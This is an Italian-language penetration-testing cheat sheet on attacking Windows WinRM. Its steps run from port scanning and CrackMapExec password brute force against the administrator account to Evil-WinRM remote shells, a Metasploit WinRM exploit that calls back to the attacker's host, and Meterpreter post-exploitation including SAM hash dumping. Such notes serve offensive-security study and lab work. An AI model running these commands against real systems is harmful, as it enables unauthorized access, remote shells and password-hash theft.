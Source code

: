 # Microsoft Windows – Exploitation di WinRM (Windows Remote Management)

**WinRM (Windows Remote Management)** è un protocollo di gestione remota introdotto da Microsoft che consente agli amministratori di eseguire comandi da remoto su sistemi Windows. Utilizza le porte **5985 (HTTP)** e **5986 (HTTPS)**, ma non sono incluse nella scansione Nmap standard.

---

## 1 – Scansione del servizio WinRM

Per rilevare se il servizio è attivo, dobbiamo specificare le porte corrette:

`nmap -p 5985,5986 <IP>` ⟶ verifica se le porte di WinRM sono aperte. <br>

---

## 2 – Brute Force delle credenziali con CrackMapExec

**CrackMapExec (CME)** è un potente strumento per testare l'autenticazione remota. Per vedere tutte le opzioni disponibili:

`crackmapexec -h` ⟶ mostra tutti i parametri utilizzabili. <br>

Attacco bruteforce su WinRM:

`crackmapexec winrm <IP> -u administrator -p <listaDiPassword>` ⟶ prova la password per l’utente `administrator`. <br>

L'utente `administrator` è comunemente presente ed è spesso il primo creato nei sistemi Windows, rendendolo un obiettivo prioritario nei test.

---

## 3 – Esecuzione comandi da remoto

Una volta trovata la password valida, possiamo eseguire comandi:

`crackmapexec winrm <IP> -u administrator -p <password> -x "whoami"` ⟶ esegue `whoami` da remoto. <br>

---

## 4 – Accesso con Evil-WinRM

**Evil-WinRM** è uno strumento Ruby dedicato all’accesso remoto tramite WinRM.

`evil-winrm -u <username> -p '<password>' -i <IP>` ⟶ apre una shell remota con privilegi. <br>

Dalla shell è possibile:

- Eseguire comandi di sistema (`whoami`, `ipconfig`, `systeminfo`)
- Caricare file (`upload`)
- Scaricare file (`download`)
- Avviare script (`powershell`)

---

## 5 – Exploit con Metasploit

È possibile ottenere una sessione Meterpreter tramite Metasploit:

`use exploit/windows/winrm/winrm_script_exec` ⟶ modulo exploit per WinRM. <br>
`set RHOSTS <IP>` ⟶ imposta l’indirizzo della vittima. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina attaccante. <br>
`set LPORT <Port>` ⟶ porta di ascolto. <br>
`set USERNAME <username>` ⟶ nome utente trovato. <br>
`set PASSWORD <password>` ⟶ password corrispondente. <br>
`set FORCE_VBS true` ⟶ forza l’utilizzo di uno script VBS (migliora la compatibilità su alcune versioni di Windows). <br>
`run` ⟶ avvia l’exploit. <br>

Il flag `FORCE_VBS` è utile per i sistemi che non accettano esecuzioni standard di script PowerShell e permette un’esecuzione alternativa via VBScript, aumentando le probabilità di successo.

---

## 6 – Post-Sfruttamento

Una volta ottenuta una sessione Meterpreter, possiamo eseguire i seguenti comandi:

`getuid` ⟶ mostra l’identità dell’utente corrente. <br>
`getprivs` ⟶ elenca i privilegi ottenuti. <br>
`hashdump` ⟶ estrae gli hash delle password dal SAM (se si hanno i privilegi necessari). <br>
`sysinfo` ⟶ mostra le informazioni sul sistema. <br>
`shell` ⟶ apre un prompt dei comandi. <br>
